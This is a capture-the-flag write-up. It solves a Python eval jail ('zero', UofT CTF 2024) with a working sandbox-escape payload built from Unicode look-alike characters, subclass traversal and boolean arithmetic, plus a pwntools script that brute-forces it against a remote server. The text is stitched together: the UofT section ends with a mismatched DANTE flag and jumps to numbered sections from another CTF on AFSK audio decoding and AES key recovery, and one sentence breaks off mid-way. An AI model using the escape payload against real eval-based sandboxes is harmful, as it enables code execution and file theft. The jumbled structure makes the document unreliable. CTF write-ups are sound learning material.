

# UofT CTF 2024 Writeup (Team: L3ak, 3rd Place)
Competition URL: https://play.uoftctf.org/
## Overview

| Challenge | Category | Points | Flag |
| --------- | -------- | ------ | ---- |
| zero | jail | 494 | uoftctf{zero_security_too_apparently_lmao} |

## zero
In this challenge, we are given the following PyJail:
```Python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```
This code sanitizes our input by removing all builtins and enforcing a blacklist on alphanumeric characters and double underscores "__". This severely limits our ability to execute code, but as a wise man once said...


As soon as I saw this challenge, I immediately remembered two very similar challenges I solved from BYUCTF 2023: [one which removed builtins](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/builtins-2) and [another which blacklisted alphanumeric characters](https://github.com/BYU-CSA/BYUCTF-2023/tree/main/a-z0-9). As this challenge is essentially a combination of the two, my solution incorporates similar techniques.

Our ultimate goal is to read the ``flag`` file whose name/path is visible in the Dockerfile. In the absence of any restrictions, we could do this with something like 
```Python
print(open('flag').read()) # (1)
```
However, here we have several restrictions which prevent this simple code injection. The first one we need to bypass is the removal of builtins, which are native Python functions (such as ``print()``) that are always available without the need to import any modules. To recover these, we can exploit [the dunder method hierarchy](https://www.tutorialsteacher.com/python/magic-methods-in-python) on Python objects like lists ``[]``, tuples ``()``, etc. In essence, we can traverse "up" and "down" the dunder method hierarchy to access all builtin methods which were removed in the sanitization. The following will do the same as (1) above, bypassing the builtins removal:
```Python
().__class__.__bases__[0].__subclasses__()[121].get_data('.','flag') # (2)
```
(For more information on how this works, see [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins). Note that the index 121 may vary by machine, so some tweaking/bruting may be required.)

We can improve on (2) above to bypass the **__** blacklist by using Unicode character U+FF3F (`＿`) ([found here](https://www.compart.com/en/unicode/U+FF3F)). Amazingly, Python interprets this character as an underscore in code execution, yet it passes the blacklist check!
```Python
()._＿class_＿._＿bases_＿[0]._＿subclasses_＿()[121].get_data('.','flag') # (3)
```
Now we need to bypass the alphanumeric character restriction, and this is where the challenge *really* begins. Buckle up, it's about to get messy...


First let us start with replacing all alphabet characters ``abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ``. Just like with the underscores, we can utilize Unicode alphabet characters for parts of our exploit. The Python interpreter will perceive these as normal alphabet chars, but since they are not standard ASCII, they will bypass the blacklist check. I used some Unicode gothic alphabet characters (found [here](https://en.wikipedia.org/wiki/Mathematical_Alphanumeric_Symbols)) as suitable substitutes for most of the exploit above:
```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.','flag') # (4)
```
Notice that we cannot use these gothic characters for the ``flag`` file, since ``flag`` is spelled with standard ASCII alphabet characters, and using ``𝖋𝖑𝖆𝖌`` will attempt to open a file which doesn't exist. We need Python code which will form the string ``flag`` during execution without explicitly using those characters. To get around this, we can use the ``__doc__`` dunder attribute to obtain documentation about various objects and index that string to get the character we want. We can then concatenate the characters together to get the word ``flag``! For example, to obtain the character **g**, we can use the following:
```Python
()._＿𝖉𝖔𝖈_＿[38]
```
This will access the tuple documentation and get the 38th character (g):
```
Built-in immutable sequence.\n\nIf no ar(g)ument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object.
```
We can update (4) above using this method for all 4 characters of ``flag`` to get:
```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[0]._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[121].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[31]+(''!='')._＿𝖉𝖔𝖈_＿[3]+()._＿𝖉𝖔𝖈_＿[14]+()._＿𝖉𝖔𝖈_＿[38]) # (5)
```
This will read the ``flag`` file, while bypassing all alphabet, double underscore, and builtins restrictions! Don't believe me? Let's do a sanity check:



The last restriction we need to bypass is the one on digits ``0123456789``. This is where my payload becomes truly monstrous, and I apologize in advance for any mental anguish or distress I cause readers of this writeup. Turn back now if you have a serious heart condition or are easily made sick by hideous code aesthetics.

The basic idea to replace digits (which two of my teammates, ahh and Matthias, helped me realize) is that in Python, ``True``/``False`` are interpreted as ``1``/``0`` when used in mathematical expressions. Thus, we can replace all numeric values in (5) with ``True+True+True+...`` for all integers > 0 and ``False`` in the case of 0. To avoid using the strings ``True`` and ``False`` *directly*, we can substitute expressions which *evaluate* to ``True``/``False``, such as ``(''=='')`` (True) and ``(''!='')`` (False). Thus, to form any integer, we can just add arbitrary amounts of ``(''=='')+(''=='')+...``. While simple in concept, this addition lengthens the payload **considerably :)**

```Python
()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')])
```


That's it! Now with it working locally, we just need to test it on the server. Remember that the 

**Python Solution:**
```Python
from pwn import *

def check(code):
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" # no letters
    numbers = "0123456789" # no numbers
    underscore = "__" # no underscores
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")

# This function prints the sum of n identical expressions which evaluate to True
# The purpose of this is to construct any number (True + True == 2, etc.) without
# explicitly using alphanumeric characters
def printTrue(n):
    s = ""
    for i in range(n):
        s += "(''=='')+"
    return s[:-1]

# This recovers the builtins and opens flag.txt
# code1 = "()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.','flag.txt')"

# This spells out 'flag.txt' (I mistakenly thought the flag was in 'flag.txt' :(
# code2 = "()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+'.'+'?'._＿𝖉𝖔𝖈_＿[''=='']+[].𝖎𝖓𝖉𝖊𝖝._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+'?'._＿𝖉𝖔𝖈_＿[''=='']"

# This spells out 'flag' (according to the Dockerfile, the flag is stored in 'flag')
code2 = "()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+(''!='')._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]+()._＿𝖉𝖔𝖈_＿[(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')+(''=='')]"


for i in range(1, 400): # Brute force the index of the builtins subclass (it is almost certainly different on local than remote)
    
    # Connect to server and construct payload
    r = remote('35.222.133.12', 5000)
    code1 = "()._＿𝖈𝖑𝖆𝖘𝖘_＿._＿𝖇𝖆𝖘𝖊𝖘_＿[''=='𝖈']._＿𝖘𝖚𝖇𝖈𝖑𝖆𝖘𝖘𝖊𝖘_＿()[" + printTrue(i) + "].𝖌𝖊𝖙_𝖉𝖆𝖙𝖆('.',"
    code = code1 + code2 + ')'

    # Send payload and retrieve the flag
    r.recvuntil(b'>>>')
    r.sendline(code.encode())
    line = r.recvline().rstrip().decode()

    # If we found the flag, then write it and the correct payload to file
    if 'uoft' in line:
        print(line.rstrip())
        f = open('flag.txt', 'w')
        f.write(line)
        f.close()
        f = open('payload.txt', 'w')
        f.write(code)
        f.close()
        r.close()
        exit()
    r.close()

# uoftctf{zero_security_too_apparently_lmao}
```

**Flag Image:**


**Flag:** ```DANTE{Att4cks_t0_p1x3L_Encrypt3d_piCtUrES_511f0c49f8be}```

## 2) Almost Perfect Remote Signing
In this challenge, we are given a ```.wav``` file with the flag hidden somewhere inside it. Listening to the file yields nothing but ~8 seconds of what sounds like static noise, so we know the flag is encoded inside the sound data somehow. Running the file through steg tools like **Binwalk** and **WavSteg** doesn't reveal much, and LSB analysis doesn't show any signs of the image being encoded in the bits of the file. At this point, I opened the file in ```Sonic Visualiser``` to see what secrets may be encoded in the spectrogram or frequency information of the sound data. Examining the spectrogram, I saw something interesting:


There is a faint binary signal present in the spectrogram! This discovery led me to think that the flag was encoded in the sound data in binary manner somewhow (using 0's and 1's). Being a novice in the area of digital signal processing, I had to do a significant amount of research to determine how this is achieved - via [AFSK](https://en.wikipedia.org/wiki/Frequency-shift_keying) (Audio Frequency Shift Keying). In this protocol, binary data is modulated onto a continuous analog signal for long-distance transmission (e.g., radio). To decode this manually would be a real hassle, so I looked up tools to automate the process. After trying and failing with tools like **GnuRadio**, I stumbled upon [multimon-ng](https://www.kali.org/tools/multimon-ng/). This tool will demodulate the signal and output the encoded data automatically, as long as it knows the exact protocol being used. There are several AFSK protocols to choose from:


and I ended up choosing AFSK1200 to start with (which turned out to be the right choice!).
This tool requires the ```.wav``` file to be in ```.raw``` format, which can be achieved using sox:

```sox -t wav aprs_out.wav -esigned-integer -b16 -r 22050 -t raw aprs_out.raw```

This command essentially takes the wave file and converts it to ```.raw``` format. Notice the sampling rate of 22050Hz being used here, which is the standard for these types of radio transmissions. Once this is done, we can use **multimon-ng** to decode the signal:

```multimon-ng -t raw -a AFSK1200 aprs_out.raw > flag```

The decoded data in ```flag``` looks like:


We are definitely on the right track - we can see "Hello flag!" in every packet. If we scrutinize the data closely, we can see that there are slightly different coordinates used in each packet transmission:


Is the flag encoded in these coordinates somehow? Plotting these coordinates on a Cartesian coordinate system yields:


It's not pretty, but zooming in around small groups of characters can help us read the flag characters:


**Flag:** ```DANTE{FLAG_REPORTING_SYSTEM}```

**Python Code:**
```Python
import matplotlib.pyplot as plt

f = open('flag', 'r')
lines = f.read().splitlines()
f.close()

lats = []
longs = []

for line in lines:
    if 'AFSK' in line:
        continue
    lat_deg = float(line[1:3])
    lat_min = float(line[3:8])
    long_deg = float(line[11:13])
    long_min = float(line[13:18])
    print('lat_deg: ' + str(lat_deg), ' lat_min: ' + str(lat_min) + ', long_deg: ' + str(long_deg) + ', long_min: ' + str(long_min))
    lat = lat_deg + (lat_min/60.0)
    if lat > 43.764:
        lat -= 0.0065
    long = long_deg + (long_min/60.0)
    longs.append(long)
    lats.append(lat)

plt.scatter(longs, lats, s=14)
plt.show()

# The flag is written in the plot, the spacing is a little wonky and you have to piece it together
# DANTE{FLAG_REPORTING_SYSTEM}
```

## 3) StrangeBytes
In this challenge, we are given 250 binary files with what appears to be random, meaningless data in them. We are told from the challenge description that they were encrypted using AES CBC, and that there may be something _strange_ in them which can be exploited.

The [definition of "strange"](https://www.merriam-webster.com/dictionary/strange) is something that is "different from what is usual, ordinary, or expected". So, we know that there is _something_ strange about bytes in these files, but beyond that we don't have much information. Identifying what *exactly* the strange bytes are is probably the first significant hurdle in solving this challenge.

After expending a long time examining the files for any strange bytes, one of our teammates noticed that each file shares a common contiguous subsequence of bytes:


To be exact, there is a sequence of 53 contiguous bytes present in each of the 250 binary files:

```5cf3c0f06ffb02fea39b6dabde2867209e96863463a4b78b55aa4d88b033811e3aba1b257944afdf4f620b0fe47ba1b85c3a434243```

This is interesting...but now what? Knowing what to do next with these bytes is probably the second hurdle in this challenge. Thinking back to the challenge description, we know that the files were encrypted with AES CBC, so is it possible that these bytes contain the IV and encryption key?

Well, if we try taking out these strange bytes from every file, the length of each file becomes an integer multiple of 16: the AES block size! This finding supports our hypothesis, as this is unlikely to be a coincidence. Now the question becomes, which bytes are the IV and which are the key, and how do we know which AES variant (128, 192, 256) was used? If you look closely at the strange bytes and at the image above, you may notice that the last 5 bytes are ```\:CBC```, which seems to act as some sort of delimiter or marker for the strange bytes. If we remove these 5 bytes we are left with 48 bytes for our key + IV. Logically, if the AES blocksize (and therefore IV) is always 16 bytes long, then the other 32 must be the key size, indicating that AES-256 was used. Knowing the variant of AES used for encryption, it's simply a matter of guessing whether the 48 stranges bytes are ```key+IV``` or ```(IV+key)```. Using first option to decrypt the files yields the true plaintexts:


The contents of most of the files don't make sense, but the fact that they only contain uppercase/lowercase english letters indicates we did the decryption properly. Doing a simple ```grep -rF --text "DANTE" .``` will reveal which file contains the flag:


**Flag:** ```DANTE{AHh9HhH0hH_ThAat_RAnsomware_maDe_m3_SaD_FFFFAAABBBBDDDD67}```

**Solution Code:**
```Python
import os
import binascii as b
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes

# Make sure these directories exist in the same directory as this program before running
dir_enc = './encrypted_files/'
dir_dec = './decrypted_files/'

# These bytes are the "strange bytes" referenced in the challenge description
# They are present in every encrypted file, and taking them out yields the true ciphertext
lcs = '5cf3c0f06ffb02fea39b6dabde2867209e96863463a4b78b55aa4d88b033811e3aba1b257944afdf4f620b0fe47ba1b85c3a434243'

# Finds longest common subsequence of bytes between all the files in the ./generated directory
def find_lcs(s1, s2):
    matrix = [["" for x in range(len(s2))] for x in range(len(s1))]
    for i in range(len(s1)):
        for j in range(len(s2)):
            if s1[i] == s2[j]:
                if i == 0 or j == 0:
                    matrix[i][j] = s1[i]
                else:
                    matrix[i][j] = matrix[i-1][j-1] + s1[i]
            else:
                matrix[i][j] = max(matrix[i-1][j], matrix[i][j-1], key=len)
    cs = matrix[-1][-1]
    return len(cs), cs

# Decrypt file using AES-256 CBC
def decrypt_file_AES_256_CBC(filename, key, iv):

    # Open the encrypted file and read the ciphertext from it
    with open(dir_enc + filename, 'rb') as file:
        ciphertext = file.read()

    # Create the AES-256 CBC cipher
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # Decrypt the ciphertext
    decrypted_data = cipher.decrypt(ciphertext)

    # Write the decrypted data to a new file in the ./decrypted_files directory
    decrypted_file_path = dir_dec + filename + '.dec'
    with open(decrypted_file_path, 'wb') as file:
        file.write(decrypted_data)


# Start of program
print('Reading in files...')

# Found this after running the program
lcs = '5cf3c0f06ffb02fea39b6dabde2867209e96863463a4b78b55aa4d88b033811e3aba1b257944afdf4f620b0fe47ba1b85c3a434243'

# Specify the path to the subdirectory
directory = './generated/'

# Get the list of file paths in the directory
file_paths = [os.path.join(directory, file) for file in os.listdir(directory)]

# Convert the contents of each binary file to hex strings
hex_strings = []
for file_path in file_paths:
    with open(file_path, 'rb') as file:
        byte_str = file.read()
        hex_str = b.hexlify(byte_str).decode().zfill(len(byte_str) * 2)
        if lcs not in hex_str:
            print(file_path)
        hex_strings.append(hex_str)
        index = hex_str.find(lcs, 0)

print('--> Done\n')
print('Finding the strange bytes present in each file...')

# Find the longest common subsequence SHARED BETWEEN ALL FILES --> these are the "strange bytes"
lcs = hex_strings[0]
for i in range(1, len(hex_strings)):
    curr_file = hex_strings[i]
    len_lcs, lcs = find_lcs(lcs, curr_file)
strange_bytes = bytes.fromhex(lcs)

print('--> Done\n')
print('Strange bytes (hex): ' + lcs)
print('Strange bytes (bin): ' + str(strange_bytes)) 
print('Length of byte sequence: ' + str(len(lcs)/2) + '\n')
print('Removing strange bytes from each binary file...')

# lcs = '5cf3c0f06ffb02fea39b6dabde2867209e96863463a4b78b55aa4d88b033811e3aba1b257944afdf4f620b0fe47ba1b85c3a434243'
# length = 53 bytes


# Remove the strange bytes (lcs) from every file in ./generated and place the file in ./encrypted_files
for filename in os.listdir(directory):

    file_path = os.path.join(directory, filename) 

    # Open the original file with the strange bytes in it
    f = open(file_path, 'rb')
    f_data = f.read()
    f.close()

    # Remove the strange bytes from the file data
    modified_data = f_data.replace(strange_bytes, b'')

    # Open the new file and write the modified bytes to it
    f = open(dir_enc + filename, 'wb')
    f.write(modified_data)
    f.close()

# Verify that the strange bytes are no longer in the encrypted files and that
# the length of the files is a multiple of 16 for AES CBC decryption
for filename in os.listdir(dir_enc):
    file_path = os.path.join(dir_enc, filename)
    f = open(file_path, 'rb')
    f_data = f.read()
    f.close()
    assert(int(len(f_data)) % 16 == 0)
    assert(lcs not in b.hexlify(f_data).decode().zfill(len(f_data) * 2))

print('--> Done\n')
print('Decrypting files...')

# Extract the IV and key from the strange bytes
key = bytes.fromhex(lcs[0:64])
iv = bytes.fromhex(lcs[64:96])

assert(len(iv) == 16)
assert(len(key) == 32)

# Decrypt every file in the directory using the key and IV from the strange bytes
for filename in os.listdir(dir_enc):

    # Decrypt the file using AES-256 CBC
    decrypt_file_AES_256_CBC(filename, key, iv)

print('--> Done\n')

# If you grep for 'DANTE' in the ./decrypted_files directory, you'll see the flag
# is in decrypted_files/veUIZbPBWvSDVcdL.dec

# Flag: DANTE{AHh9HhH0hH_ThAat_RAnsomware_maDe_m3_SaD_FFFFAAABBBBDDDD67}
```
